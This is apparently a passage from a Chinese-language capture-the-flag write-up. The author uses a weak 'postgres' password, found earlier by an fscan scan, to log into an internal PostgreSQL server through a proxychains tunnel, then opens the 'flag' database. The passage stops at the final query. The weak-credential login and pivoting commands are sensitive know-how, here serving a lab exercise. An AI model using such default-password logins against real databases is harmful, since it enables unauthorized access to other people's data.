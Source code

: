 ## Postgres
之前fscan扫出来的弱口令
`[+] Postgres:172.56.102.3:5432:postgres password`

登录之后获取flag
```bash
☁  workspace  sudo proxychains psql -h 172.56.102.3 -p 5432 -U postgres
[sudo] password for l1uyun: 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  127.0.0.1:9998  ...  172.56.102.3:5432  ...  OK
Password for user postgres: 
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  127.0.0.1:9998  ...  172.56.102.3:5432  ...  OK
psql (16.3 (Debian 16.3-1), server 16.4)
Type "help" for help.

postgres=# help
You are using psql, the command-line interface to PostgreSQL.
Type:  \copyright for distribution terms
       \h for help with SQL commands
       \? for help with psql commands
       \g or terminate with semicolon to execute query
       \q to quit
postgres=# \dt
Did not find any relations.
postgres=# \l
                                                      List of databases
   Name    |  Owner   | Encoding | Locale Provider |  Collate   |   Ctype    | ICU Locale | ICU Rules |   Access privileges   
-----------+----------+----------+-----------------+------------+------------+------------+-----------+-----------------------
 flag      | postgres | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           | 
 postgres  | postgres | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           | 
 template0 | postgres | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           | =c/postgres          +
           |          |          |                 |            |            |            |           | postgres=CTc/postgres
 template1 | postgres | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           | =c/postgres          +
           |          |          |                 |            |            |            |           | postgres=CTc/postgres
(4 rows)

postgres=# \c flag
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  127.0.0.1:9998  ...  172.56.102.3:5432  ...  OK
psql (16.3 (Debian 16.3-1), server 16.4)
You are now connected to database "flag" as user "postgres".
flag=# \dt
        List of relations
 Schema | Name | Type  |  Owner
--------+------+-------+----------
 public | flag | table | postgres
(1 row)

flag=# SELECT * FROM FLAG;
                            data
```